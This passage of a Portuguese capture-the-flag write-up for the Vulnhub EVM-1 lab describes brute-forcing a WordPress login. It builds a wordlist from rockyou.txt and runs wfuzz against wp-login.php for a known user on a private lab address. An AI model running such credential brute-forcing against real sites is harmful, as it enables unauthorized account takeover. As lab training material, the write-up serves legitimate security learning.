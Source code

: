 
# Exploracao


## Brute Force


* Uma das dicas do usuarios e que a senha dele e fraca, entao vamos tentar quebrar a senha combruteforce na pagina de login do wordpress.


* Para fins didadicos e para registrar mais de uma maneira, caso precise utilizar mais para frente, vou demonstrar 02 formas de realiazar o bruteforce na pagina web


### Wordlist


* Para fins didaticos vamos preparar uma wordlist conseguir testar os comando e nao demorar muito. Mas inicialmente foi utilizado a rockyou.txt para quebrar a senha

```bash
cat /usr/share/wordlists/rockyou.txt | grep  -C 10 "24992499" | sed 's/--//g' | grep -v "^$" > senhas.txt
```




### WFUZZ


* Vamos utilizar o wfuuz para quebrar do usuario que ja conhecemos na pagina do wordpress...

```bash
wfuzz -c -w senhas.txt -d "log=c0rrupt3d_brain&pwd=FUZZ" --hw 255 http://192.168.56.103/wordpress/wp-login.php
```

![](/assets/img/Vulnhub/EVM-1/wfuzz-bruteforce.png)

